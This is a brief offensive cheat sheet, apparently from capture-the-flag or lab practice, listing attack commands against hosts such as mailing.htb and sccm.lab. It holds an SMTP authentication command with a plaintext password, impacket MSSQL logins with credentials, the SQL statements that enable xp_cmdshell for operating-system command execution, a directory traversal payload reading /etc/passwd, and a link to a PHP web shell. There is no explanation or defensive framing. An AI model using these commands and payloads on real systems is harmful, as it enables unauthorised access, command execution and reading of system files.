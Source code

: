 ## Email Attack

- swaks -server mailing.htb --auth LOGIN --auth-user administrator@mailing.htb --auth-password homenetworkingadministrator --quit-after AUTH

## MSSQL Enabling xp_cmdshell

- impacket-mssqlclient sql_svc:Dolphin1@10.10.205.148 -windows-auth
- impacket-mssqlclient -k -no-pass SSCM.LAB/sccm-sql@mssql.sccm.lab -debug
- EXECUTE sp_configure 'show advanced options', 1;
- RECONFIGURE;
- EXECUTE sp_configure 'xp_cmdshell', 1;
- RECONFIGURE;

## Directory Traversal

- ....//....//....//....//....//....//....//....//....//....//....//etc/passwd

## PHP webshell

- https://github.com/artyuum/simple-php-web-shell.git
